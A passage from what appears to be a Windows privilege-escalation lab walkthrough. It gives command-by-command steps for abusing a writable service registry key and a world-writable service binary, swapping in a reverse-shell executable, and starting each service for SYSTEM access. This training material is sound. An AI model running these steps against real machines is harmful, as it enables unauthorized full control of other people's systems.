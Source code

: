 ```
net start unquotedsvc
```

## Service Exploits - Weak Registry Permissions 

1. Query the "regsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).

```
sc qc regsvc
```

2. Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

3. Overwrite the ImagePath registry key to point to the reverse.exe executable you created:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

4. Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start regsvc
```

## Service Exploits - Insecure Service Executables 

1. Query the "filepermsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).

```
sc qc filepermsvc
```

2. Using accesschk.exe, note that the service binary (BINARY_PATH_NAME) file is writable by everyone:

```
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

3. Copy the reverse.exe executable you created and replace the filepermservice.exe with it:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

4. Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start filepermsvc
```
